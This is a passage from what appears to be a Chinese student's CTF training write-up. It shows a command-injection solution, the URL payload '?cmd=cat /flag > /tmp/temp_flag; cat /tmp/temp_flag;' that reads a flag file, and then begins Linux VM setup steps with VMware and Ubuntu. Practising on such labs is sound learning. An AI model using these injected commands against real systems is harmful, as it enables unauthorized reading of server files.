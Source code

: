 <font style="color:#000000;">查阅资料，写这种题可以</font><font style="color:#000000;">尝试将cat /flag的输出重定向到一个临时文件中，然后再通过其他命令读取这个临时文件的内容</font>

<font style="color:#000000;">创建临时文件：</font>

```plain
cat /flag > /tmp/temp_flag
```

<font style="color:#000000;">读取临时文件内容：</font>

```plain
cat /tmp/temp_flag
```

<font style="color:#000000;">将这两个命令组合起来，可以构造如下命令：</font>

```plain
cat /flag > /tmp/temp_flag; cat /tmp/temp_flag;
```

<font style="color:#000000;">所以构造payload：</font>

```plain
?cmd=cat /flag > /tmp/temp_flag; cat /tmp/temp_flag;
```

<font style="color:#000000;">得到flag</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737131517139-50459889-2f3d-482a-9f0f-63f1589d844b.png)

# <font style="color:#000000;">三、Linux环境搭建</font>
<font style="color:#000000;">由于之前在开课前做准备工作的时候已经搭建好了一个Linux环境，没截图，所以就大概说一下吧</font>

1. <font style="color:#000000;">下载并安装VMware</font>

<font style="color:#000000;">在</font><font style="color:#000000;">HnuSec2025冬季培训</font><font style="color:#000000;">❄️</font><font style="color:#000000;">群里有安装包</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737132098742-43adea72-d552-4a1b-872c-bd18eeb93854.png)

<font style="color:#000000;">官网下载：</font>

[<font style="color:#117CEE;">https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion</font>](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)

<font style="color:#000000;">之后打开安装包设置好路径添加path就行</font>

2. <font style="color:#000000;">安装映像</font>

<font style="color:#000000;">打开VMware后，需要选择一个虚拟机的光盘映像文件，我这里选择的是</font><font style="color:#000000;">ubuntu</font><font style="color:#000000;">的，可以去ubuntu下载：</font>[<font style="color:#000000;">官网跳转链接</font>](https://cn.ubuntu.com/download/desktop)

<font style="color:#000000;">下载好之后就是这个文件</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737132614360-69c37838-cb17-4e33-845f-7b339001c85b.png)

3. <font style="color:#000000;">新建虚拟机</font>
